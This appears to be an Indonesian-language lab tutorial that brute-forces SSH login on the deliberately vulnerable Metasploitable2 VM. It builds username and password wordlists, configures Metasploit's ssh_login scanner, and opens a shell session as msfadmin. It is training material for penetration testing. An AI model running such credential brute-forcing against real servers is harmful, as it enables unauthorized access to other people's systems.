 # Exploit Port 22 (SSH)
- Buat file dengan nano yang berisi daftar user untuk uji coba
```sh
nano user-metasploitable2.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SSH/ssh%201.JPG)

- Isi file tersebut dengan daftar user sebagai berikut. Kemudian tekan `Ctrl+o` lalu `enter` untuk menyimpan
```sh
root
admin
msfadmin
administrator
guest
user
test
postgres
oracle
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SSH/ssh%202.JPG)

- Buat file dengan nano yang berisi daftar password untuk uji coba
```sh
nano password-metasploitable2.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SSH/ssh%203.JPG)

- Isi file tersebut dengan daftar password sebagai berikut. Kemudian tekan `Ctrl+O` lalu `enter` untuk menyimpan
```sh
qwerty
1234
admin
12345
msfadmin
123123
12345678
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SSH/ssh%204.JPG)

- Buka msfconsole di terminal
```sh
msfconsole
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SSH/ssh%205.JPG)

- Cari modul untuk exploit SSH
```sh
search ssh
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SSH/ssh%206.JPG)

- Gunakan modul `auxiliary/scanner/ssh/ssh_login` untuk brute force SSH login
```sh
use auxiliary/scanner/ssh/ssh_login
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SSH/ssh%207.JPG)

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut
```sh
show options
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SSH/ssh%208.JPG)

- Isi parameter yang dibutuhkan di modul tersebut
```sh
set RHOST <IP_metasploitable2>
set VERBOSE true
set USER_FILE /home/kali/user-metasploitable2.txt
set PASS_FILE /home/kali/password-metasploitable2.txt
set STOP_ON_SUCCESS true
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SSH/ssh%209.JPG)

- Setelah pengisian parameter selesai jalankan proses brute force. Disini kita berhasil login ke SSH dengan username msfadmin password msfadmin yang berada di session 1
```sh
run
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SSH/ssh%2010.JPG)

- Akses session 1
```sh
sessions -i 1
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SSH/ssh%2011.JPG)

- Disini kita berhasil masuk sebagai user `msfadmin`

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20SSH/ssh%2012.JPG)